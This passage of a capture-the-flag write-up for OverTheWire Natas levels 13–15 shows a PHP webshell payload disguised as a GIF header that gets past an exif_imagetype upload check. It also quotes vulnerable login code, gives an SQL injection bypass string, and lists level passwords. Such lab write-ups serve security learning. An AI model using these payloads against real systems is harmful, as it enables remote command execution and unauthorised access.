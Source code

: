 Uses exif_imagetype to determine if it is an image. exif_imagetype reads the first bytes of an image to determine if it is an image. 

Created 

```php
GIF<? system($_GET["cmd"]) ?>
```

payload to get a webshell

natas14 : Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

# Level 14-15

![/assets/images/OverTheWire/Natas/Untitled%207.png](/assets/images/OverTheWire/Natas/Untitled%207.png)

```php
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```

SQL injection 

Username = " or 1=1#

natas15 : AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
